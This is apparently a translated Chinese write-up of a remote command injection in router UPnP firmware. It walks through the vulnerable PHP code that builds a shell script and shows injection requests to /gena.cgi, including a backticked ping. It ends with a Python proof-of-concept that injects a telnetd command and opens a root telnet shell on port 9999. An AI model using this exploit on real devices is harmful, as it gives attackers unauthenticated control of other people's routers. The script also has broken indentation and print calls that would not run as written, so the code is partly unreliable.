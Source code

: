 ```
if ($upnpmsg == "") $upnpmsg = "/dev/null";
fwrite(w, $shell_file,
"#!/bin/sh\n".
'echo "[$0] ..." > '.$upnpmsg."\n".
"xmldbc -P ".$target_php.
  " -V INF_UID=".$inf_uid.
  "-V HDR_URL=".$uri.
  " -V HDR_HOST=".$host.
  " -V HDR_SID=".$sid.
  " -V HDR_SEQ=0".
  " | httpc -i ".$phyinf." -d \"".$host."\" -p TCP > ".$upnpmsg."\n"
);
fwrite(a, $shell_file, "rm -f ".$shell_file."\n"); /* Here, the code is injected as filename */
}
```

这是“ SHELL_FILE”最终结束的地方。它用作通过调用PHP函数“ fwrite（）”创建的新文件的名称的一部分。此函数使用了两次：第一个创建文件，从我们控制的SHELL_FILE变量中获取文件名，并连接getpid（）的输出，如下所示：

```
Request: http://IP:PORT/*?service=file_name
System: /var/run/nombre_archivo_13567.sh
```

第二次对“ fwrite（）”的调用将向该文件添加新行，其中包含对“ rm”系统命令的调用以删除自身。
为了利用这一点，我们只需要插入一个用反引号引起的系统命令（$ command），然后将其注入到shell脚本中，并为我们提供RCE；“ rm”命令将失败，因为文件名字符串将被“ rm”返回的输出（空字符串）替换。

```
Request: http://IP:PORT/*?service=`ping 192.168.0.20`
System: /var/run/`ping 192.168.0.20`_13567.sh
Run: rm -f `ping 192.168.0.20`_13467.sh
```

利用PoC
综上所述，我们编写了一个功能脚本来利用此RCE。

```
import socket
import os
from time import sleep
# Exploit By Miguel Mendez & Pablo Pollanco
def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}').format(host=server, port=port)
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
sleep(1)
    print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    results = con.recv(4096)
sleep(1)
    print('[*] Running Telnetd Service')
    sleep(1)
    print('[*] Opening Telnet Connection\n')
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')
serverInput = raw_input('IP Router: ')
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```